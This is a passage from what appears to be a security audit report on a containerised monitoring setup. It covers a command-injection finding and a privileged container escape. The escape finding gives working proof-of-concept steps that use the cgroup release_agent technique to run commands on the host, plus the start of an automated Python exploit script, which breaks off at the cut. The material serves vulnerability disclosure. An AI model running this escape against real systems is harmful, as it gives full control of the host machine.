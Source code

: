 ```bash
./manage.sh up

# Check if exploitation worked
if [ -f /tmp/exploited ]; then
    echo "[+] Exploitation successful!"
    ls -la /tmp/exploited
else
    echo "[-] Exploitation failed"
fi
```

**Expected vs Actual Behavior**:
- Expected: IP addresses are validated and properly escaped
- Actual: Raw IP used in sed command allows injection

### 3. Privileged Container Escape (High - CVSS 7.8)

**Description**: The node-exporter container runs with privileged:true and mounts the entire host filesystem, enabling container escape.

**Impact**: Full host system compromise from within the container.

#### Proof-of-Concept Exploit

**Setup Requirements**:
- Access to execute commands in the node-exporter container
- Running container with privileged mode

**Manual Exploitation**:
```bash
# Step 1: Access the privileged container
docker exec -it claude-node-exporter /bin/sh

# Step 2: Exploit privileged access to escape
# Inside container:
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# Step 3: Execute commands on host
echo '#!/bin/sh' > /cmd
echo 'ps aux > /tmp/host_processes.txt' >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

# Step 4: Verify host compromise
cat /rootfs/tmp/host_processes.txt
```

**Automated Exploitation Script**:
```python
#!/usr/bin/env python3
import subprocess
import time

def escape_privileged_container():
    """Escape from privileged container to host"""
    print("[*] Attempting container escape...")
    
    # Commands to run inside container
    escape_commands = [
        "mkdir -p /tmp/cgrp",
        "mount -t cgroup -o memory cgroup /tmp/cgrp",
        "mkdir -p /tmp/cgrp/x",
```